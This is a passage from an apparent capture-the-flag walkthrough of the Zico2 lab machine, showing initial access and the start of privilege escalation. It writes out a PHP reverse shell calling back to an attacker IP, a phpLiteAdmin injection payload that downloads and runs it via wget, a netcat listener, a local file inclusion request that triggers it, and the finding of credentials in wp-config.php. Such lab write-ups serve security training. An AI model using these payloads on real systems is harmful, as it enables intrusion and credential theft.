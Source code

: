 If you have read the searchsploit file, getting the shell will be easy. There are of course many ways to approach this vulnerability, but I chose the following:

1. Make a txt file inside /var/www/html with `<?php $sock=fsockopen("192.168.1.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>` (this is our reverse shell - taken from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))
2. Start an apache web server using `/etc/init.d/apache2 start`

To proceed with our exploitation, do as the exploitdb file says. Create a database with a .php extension (in my case shell.php):  

<img src="/img/blog/zico2/Zico6.png">

Add a table inside it called shell, select 1 field:      

<img src="/img/blog/zico2/Zico7.png">

Name the field whatever we wish, set it as *text* type, put `<?php system("wget 192.168.1.12/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>` into the default value & click create. This should create a new table with our exploit. The default value script plays a huge role here as it is used to download our main php reverse shell.

<img src="/img/blog/zico2/Zico8.png">
 
`wget - downloads the the main file on the target machine`

`-O /tmp/shell.php - converts the text file into php (this is used to prevent activation of php payload on our server) and saves it inside /tmp folder`

`;php /tmp/shell.php - runs the php file with our malicious payload inside`
     
In order to activate our side script which downloads the malicious file, an HTTP request is needed. How would we do this though? I quickly reminded myself of the LFI vulnerability which allows me to browse the file system. All databases are located at **/usr/share/databases/** as it can be seen on the phpliteadmin side panel. See where I'm going? Start our netcat listener `nc -lvp 1234` and make an HTTP request via `192.168.1.17/view.php?page=../../../../usr/databases/shell.php`


<img src="/img/blog/zico2/Zico9.png">

BOOM! A reverse connection has been made! :)


# Privilege Escalation

Time to snoop! (I stole that phrase from [g0blin](https://twitter.com/g0blinresearch) heh :P). There is nothing of interest inside **/var/** and **/tmp/** folders. All that remains is closer inspection of /home/zico/ which is present with many CMS files. 

<img src="/img/blog/zico2/Zico10.png">

After some exploration I discovered a wp-config.php (inside **/wordpress/**) file which has zico's login credentials.

<img src="/img/blog/zico2/Zico11.png"> 
